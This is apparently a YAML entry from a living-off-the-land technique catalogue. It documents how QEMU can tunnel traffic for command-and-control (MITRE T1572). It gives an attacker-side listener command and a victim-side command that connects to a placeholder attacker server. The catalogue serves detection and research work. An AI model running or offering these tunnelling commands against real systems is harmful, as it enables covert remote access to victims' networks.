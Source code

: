 ```yaml
---
Name: QEMU
Description: "QEMU is a free and open-source emulator that uses dynamic binary translation to emulate a computer's processor"
Author: 'Kirill Magaskin'
Created: 2025-02-18
Usage:
  - Steps: qemu-system-x86_64 -boot d -cdrom <AnyISOImage> -m 6048 -device e1000,netdev=n1, mac=<AnyMAC> -smp 2 -netdev socket,id=n1,listen=:<Port>
    Description: "Steps to create a QEMU listener on attacker's host on some PORT"
    Usecase: Establishing C2 Channel
    Category: C2 Channel
    Privileges: User
    Limitations: None
    MitreID: T1572
  - Steps: qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServerIP>:<AttackerServerPort> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    Description: "Steps to create a QEMU socket network device on victim's host"
    Usecase: Establishing C2 Channel
    Category: C2 Channel
    Privileges: User
    Limitations: None
    MitreID: T1572
Resources:
  - Link: https://securelist.com/network-tunneling-with-qemu
Acknowledgement:
  - Person: 'Grigory Sablin'
    Handle: '@grixa'
---
```

